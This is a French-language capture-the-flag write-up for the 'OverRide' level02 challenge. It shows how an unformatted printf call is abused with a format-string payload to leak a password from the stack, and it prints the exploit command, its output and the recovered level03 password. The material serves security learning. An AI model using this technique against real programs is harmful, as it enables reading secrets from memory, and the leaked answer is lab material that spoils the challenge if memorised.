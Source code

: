 ## level02
- Le [code source désassemblé](/level02/source.c) permet de mieux comprendre le fonctionnement du binaire :
    - Le binaire va lire le contenu du fichier `/home/users/level03/.pass` et le stocker dans la variable `filePassword`. Puis il va demander un mot de passe à l'utilisateur et le stocker dans la variable `userPassword`. Enfin, il va comparer ces deux variables et lancer un shell si elles contiennent la même valeur.
    - On remarque que le dernier appel à `printf` est mal formaté : `printf(login);` au lieu de `printf("%s", login);`. La [page du manuel de `printf`](https://linux.die.net/man/3/printf) nous apprend que cette faille peut être exploitée :
    > Code such as printf(foo); often indicates a bug, since foo may contain a % character. If foo comes from untrusted user input, it may contain %n, causing the printf() call to write to memory and creating a security hole.
    - Plus précisément, on va chercher à obtenir le contenu de la chaîne `filePassword` en ayant recours à une [*format string attack*](https://en.wikipedia.org/wiki/Uncontrolled_format_string)
- `python -c 'print "%08lx|"*20' | ./level02` nous permet d'obtenir les 20 prochains paramètres sur la stack, mais rien n'y correspond au contenu d'un fichier `.pass`. Chaque bloc correspond à 8 caractères ; comme le `.pass` fait 40 caractères, on recherche un ensemble de cinq bloc contigus.
- Nous procédons itérativement pour trouver le contenu de `filePass` :
```
level02@OverRide:~$ python -c 'print "%20$08lx|" + "%21$08lx|" + "%22$08lx|" + "%23$08lx|" + "%24$08lx|" + "%25$08lx|" + "%26$08lx|" + "%27$08lx|" + "%28$08lx|" + "%29$08lx|"' | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
100000000|00000000|756e505234376848|45414a3561733951|377a7143574e6758|354a35686e475873|48336750664b394d|00000000|786c383024303225|6c3830243132257c| does not have access!
```
- L'ensemble `756e505234376848|45414a3561733951|377a7143574e6758|354a35686e475873|48336750664b394d` semble prometteur. En convertissant chaque bloc de [texte hexadécimal en ASCII](https://codebeautify.org/hex-string-converter), puis en l'invertissant (les valeurs ont été affichées en *little-endian* alors qu'elles étaient écrites en *big-endian* dans le fichier), on arrive à la chaîne : `Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H` => Il s'agit bien du mot de passe de l'utilisateur `level03`.